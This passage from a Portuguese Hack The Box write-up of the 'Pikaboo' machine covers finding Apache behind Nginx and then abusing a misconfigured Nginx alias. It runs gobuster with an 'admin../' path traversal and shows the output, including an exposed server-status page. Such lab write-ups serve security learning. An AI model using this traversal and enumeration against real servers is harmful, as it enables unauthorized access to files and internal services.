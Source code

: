 Em `Contact`, temos um simplfes formulário de contato sem nada aparentemente utilizável na exploração.

<img src="/htb/htb-pikaboo-5.png">

Em `Admin` temos uma tela de auteticação que nos trouxe uma informação relevante. Ao clicarmos em `Cancelar` temos a seguinte informação:

<img src="/htb/htb-pikaboo-6.png">

Vemos a resposta de `Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 81`, porém na varredura com nmap, vimmos o `Nginx` na porta `80`. O que significa que o Nginx está chamando o Apache que está rodando localmente.

### Exploração

Após um tempo de pesquisa sobre vulnerabilidades no Nginx, que é nossa porta de entrada, encontrei este [artigo](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/).

Basicamente podemos nos aproveitar do Nginx mal configurado para obtermos `Path traversal` ao adicionarmos `../` na URL e conseguirmos enumerar diretórios, vamos tentar.

```
┌──(hastur㉿hastur)-[~/Pikaboo]
└─$ gobuster dir -e -u http://pikaboo.htb/admin../ -w /usr/share/wordlists/dirb/common.txt -r                                                                                                                                            1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pikaboo.htb/admin../
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/19 15:24:00 Starting gobuster in directory enumeration mode
===============================================================
http://pikaboo.htb/admin../.hta                 (Status: 403) [Size: 274]
http://pikaboo.htb/admin../.htaccess            (Status: 403) [Size: 274]
http://pikaboo.htb/admin../.htpasswd            (Status: 403) [Size: 274]
http://pikaboo.htb/admin../admin                (Status: 401) [Size: 456]
http://pikaboo.htb/admin../server-status        (Status: 200) [Size: 6399]
```